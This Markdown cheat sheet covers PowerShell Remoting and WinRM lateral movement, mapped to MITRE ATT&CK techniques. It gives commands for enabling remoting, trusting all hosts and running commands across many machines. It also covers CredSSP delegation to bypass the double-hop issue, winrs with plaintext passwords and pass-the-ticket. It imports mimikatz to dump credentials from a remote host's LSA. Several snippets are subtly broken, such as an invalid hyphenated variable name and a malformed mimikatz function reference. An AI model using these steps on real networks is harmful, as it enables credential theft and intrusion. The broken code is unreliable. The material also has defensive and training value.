

> [!abstract] PowerShell Remoting & Lateral Movement
> A comprehensive guide for executing commands, managing sessions, and moving laterally using PowerShell Remoting (WinRM). This covers cmdlet discovery, session management, module execution, and bypassing the "Double Hop" issue using CredSSP.
> **MITRE ATT&CK Mapping:** [T1021.006 - Remote Services: Windows Remote Management](https://attack.mitre.org/techniques/T1021/006/) | [T1059.001 - PowerShell](https://attack.mitre.org/techniques/T1059/001/)

## 1. Finding Remote Capable Cmdlets

> [!info]+ Discovering Cmdlets with Remote Parameters
> Find built-in cmdlets that support `-ComputerName` or `-Credential` parameters.
> ```powershell
> # Cmdlets with ComputerName parameter
> gcm -commandtype cmdlet -parameter computername
> gcm -CommandType cmdlet | ? {$_.parameters.keys -contains "ComputerName"}
> 
> # Cmdlets with Credential parameter (excluding those needing a Session)
> gcm -CommandType cmdlet | ? {$_.parameters.keys -contains "Credential"}
> gcm -CommandType cmdlet | ? {$_.parameters.keys -contains "Credential" -and $_.parameters.keys -notcontains "Session" }
> ```

---

## 2. Remote Enumeration Basics

> [!example]+ Quick Remote Checks
> Check for hotfixes or ping multiple machines without establishing a full session.
> ```powershell
> # Check installed hotfixes on a remote machine
> get-hotfix -ComputerName <PCName_or_IP> -Credential Domain\administrator
> 
> # Test connection (ping) on multiple PCs
> foreach ($PC in ('mal-analysis','pc-sindad','amaxpc')) {Test-Connection $PC}
> ```

---

## 3. Enabling PS Remoting (WinRM)

> [!warning]+ Setup & Trusted Hosts Configuration
> PowerShell Remoting uses WinRM (TCP 5985 for HTTP, 5986 for HTTPS). Logon type is 3 (Network). The process executed on the target is `wsmprovhost.exe`.
> 
> **On the Target Machine:**
> *Requires Administrator privileges.*
> ```powershell
> Enable-PSRemoting -Force
> ```
> 
> **On the Attacker Machine (Non-Domain / Workgroup):**
> *If you are not in a domain, you must explicitly trust the target machine.*
> ```powershell
> # Trust all machines (Use with caution)
> set-item WSman:\localhost\client\trustedhosts -Value * -Force
> 
> # Trust specific IPs
> Set-Item wsman:\localhost\client\trustedhosts -Value "192.168.10.17,192.168.10.18" -Force
> 
> # Verify trusted hosts
> get-item WSman:\localhost\client\trustedhosts
> ```

---

## 4. Execution & Session Management

> [!tip]+ One-to-One: `Invoke-Command` (Stateless)
> `Invoke-Command` (alias `icm`) executes a script block on a remote machine and returns the output. It does not maintain state between executions.
> ```powershell
> # Test execution
> Invoke-Command -ScriptBlock {$env:ComputerName} -ComputerName x.x.x.x -Credential domain\username
> 
> # Run multi-commands on multi-hosts simultaneously
> Invoke-Command -ScriptBlock {whoami;hostname;ipconfig} -ComputerName x.x.x.x,x.x.x.x,x.x.x.x,mal-analysis -Credential domain\user
> 
> # Run a local script file remotely
> Invoke-Command -FilePath C:\Users\scezar\Desktop\file.ps1 -ComputerName x.x.x.x -Credential domain\user
> ```

> [!bug]+ One-to-One: Interactive Sessions (`Enter-PSSession`)
> Creates an interactive, stateful shell on the target machine.
> ```powershell
> # Direct interaction without saving a session
> Enter-PSSession -ComputerName x.x.x.x -Credential domain\user
> 
> # Inside the session, get process info
> get-PSHostProcessInfo
> 
> # To exit, type: Exit-PSSession
> ```

> [!danger]+ Stateful Sessions (`New-PSSession`)
> Create persistent sessions for executing multiple commands that share variables.
> ```powershell
> # 1. Create and save session
> $mal-analysis = New-PSSession -ComputerName x.x.x.x -Credential domain\user
> 
> # 2. View active sessions
> Get-PSSession
> 
> # 3. Execute commands within the saved session
> invoke-command -ScriptBlock {$proc = get-process} -session $mal-analysis
> invoke-command -scriptblock {$proc} -session $mal-analysis
> 
> # 4. Interact with the saved session
> Enter-PSSession -Id 1  # or Enter-PSSession -ComputerName x.x.x.x
> 
> # 5. Cleanup
> Remove-PSSession -Id 1
> ```

---

## 5. Advanced: Running Local Modules Remotely

> [!success]+ Executing Local Functions on Remote Hosts
> You don't need to copy a module to the remote machine to use it. You can import it locally and pass the function to the remote session.
> 
> ```powershell
> # Step 1: Import module locally
> import-module mimikatz.ps1
> 
> # Step 2: Execute the specific function on the remote machine
> Invoke-Command -ScriptBlock ${function:sekurlsa::lsa} -ComputerName x.x.x.x -Credential domain\user
> ```

> [!example]+ Exporting & Importing Sessions
> If a remote machine has a module or function you want locally, you can extract it.
> ```powershell
> # Load remote functions into local current memory
> Import-PSSession -CommandName get-sysinfo -session $mal-analysis
> 
> # Export remote functions as a local module file
> Export-PSSession -ModuleName newname -CommandName get-sysinfo -session $mal-analysis
> ```

---

## 6. The "Double Hop" Problem & CredSSP

> [!warning]+ Understanding and Bypassing Double Hop
> If you connect from Machine A to Machine B via PSRemoting, and then try to access a network resource on Machine C from within Machine B's session, it fails. This is the "Double Hop" problem because Network Logon (Type 3) doesn't pass credentials forward.



> [!danger]+ Solution: CredSSP Delegation
> CredSSP (Credential Security Support Provider) allows the client (A) to delegate its credentials to the server (B), enabling B to authenticate to C.
> 
> **Step 1: On Machine A (Client)**
> ```powershell
> Enable-WSManCredSSP -Role Client -DelegateComputer "B"
> ```
> 
> **Step 2: On Machine B (Server)**
> ```powershell
> Enable-WSManCredSSP -Role Server
> ```
> 
> **Step 3: Connect from A to B using CredSSP**
> ```powershell
> Enter-PSSession -ComputerName B -Credential B\administrator -Authentication CredSSP
> ```
> *Now you are in Machine B, and you can access Machine C seamlessly.*

---

## 7. Classic CMD Execution (WinRS)

> [!quote]+ Using `winrs.exe` for Lateral Movement
> If you don't have PowerShell available or want a lightweight CMD approach, use Windows Remote Shell (`winrs.exe`).
> ```cmd
> :: Using explicit credentials
> winrs -u:domain\user -p:password -r:x.x.x.x powershell.exe
> 
> :: Using existing Kerberos tickets (Pass-the-Ticket)
> winrs /r:hostname.domain.local powershell.exe
> ```


